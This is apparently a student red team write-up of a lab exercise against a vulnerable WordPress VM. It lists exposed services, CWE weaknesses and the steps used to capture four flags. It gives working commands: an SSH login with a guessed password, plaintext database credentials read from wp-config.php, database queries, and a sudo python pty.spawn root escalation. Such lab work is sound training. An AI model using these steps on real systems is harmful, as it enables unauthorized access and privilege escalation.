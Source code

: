 # **Red Team: Summary of Operations**

## TARGET 1

### Table of Contents

- Exposed Services
- Critical Vulnerabilities
- Exploitation

---

## Exposed Services

Nmap scan results reveals the below services and OS details:

nmap -sV 192.168.1.110

![1](/Resources/Images/1/1.png)

---

## Critical Vulnerabilities

The CVE and CWE databases give us information of vulnerabilities found in the previous step. These vulnerabilities are potential points of entry:

Vulnerability | Description | Impact
---|---|---
**CWE-200** | Exposure of sensitive Information to an unauthorized actor | Allowing sensitive information to be compromised so easily can result in a breach that can have significant affects on your business
**CWE-521** | Weak Password Requirements | Not enforcing a password policy allows users to choose passwords that they can easily remember which are not typically secure.
**CWE-284** | The software does not restrict or incorrectly restricts access to a resource from an unauthorized actor. | A user is able to execute elevated commands when they were not preauthorized to do so
**CWE-98** | An improper control of filename for include or require statement in PHP allows a LFI allowing remote attackers to execute arbitrary code | An attacker can execute commands on the web server remotely  allowing them to further compromise the target.

---

## Exploitation

The Red Team was able to penetrate Target1 and retrieve the following confidential data:

**flag1.txt:**  `b9bbcb33e11b80be759c4e844862482d`

- **CWE-200** Exposure of sensitive Information to an unauthorized actor
    
    Sensitive data was spotted in plain text embedded in the code of the service site. 
    
    Exploit:
    
    Using Google Chrome developer's Tools on the Url: `192.168.1.110/service.html' give a glance at the exposed sensitive data.
  
     **Flag1**

    ![2](/Resources/Images/2/5.png)

---

**flag2.txt:** `fc3fd58dcdad9ab23faca6e9a36e581c`

- **CWE-521:** Weak Password Requirements

    Access to the system was obtained through this weakness. The product does not require users to use strong passwords. This vulnerability makes it easier for attackers to compromise user accounts. User Michael utilizes his username as a password. Hydra can easily brute-force the password. Nevertheless, guessing the password was the efficient choice.
    
    Exploit:

    ```
        ssh michael@192.168.1.110
        Password: michael
        cd ../../
        find -iname “*flag*” 2>/dev/null
        cat /var/www/flag2.txt
    ```

    **Flag2**

    ![3](/Resources/Images/2/8.png)

---

**flag3.txt:**  `afc01ab56b50591e7dccf93122770cd2`

- **CWE-284** Server does not properly restrict access to a resource

    Privilege escalation is preceded by this vulnerability. The SQL's root password is reachable in plain text on the file wp-config.php
    
    Exploit:
   
    ```
    Nano wp-config.php
    Look down mysql database password
    mysql -u root -p
    Password: R@v3nSecurity
    ```

    ![4](/Resources/Images/2/9.png)

    ```
    mysql -u root -p
    mysql> show databases;
    mysql> use wordpress;
    mysql> show tables;
    mysql> select * from wp_posts;
    ```

    **Flag3**

    ![11](/Resources/Images/2/22.png)  

    >#### note: Flag4 also appears in this exploit.

---

**flag4.txt:**  `715dea6c055b9fe3337544932f2941ce`

- **CWE-284** Improper Access Control

    Privilege on the system is obtained in this step after cracking the hashed password of a privileged user found in the SQL database. This allows to execute a Python Script that leads to a root access to the system.
  
    The user Steven has python root access. This led to a root privilege escalation.

    Exploit:
    
    1. Steven has the privilege to run python language as a root user
        ```   
            su steven
            Password: pink84
            sudo -l  
        ```
    
        ![8](/Resources/Images/2/16.png)

    2. Python Script
    
        sudo python -c 'import pty;pty.spawn("/bin/bash")' | **Flag4**: cat /root/flag4.txt
        ---|---
        ![9](/Resources/Images/2/17.png) |   ![10](/Resources/Images/2/19.png)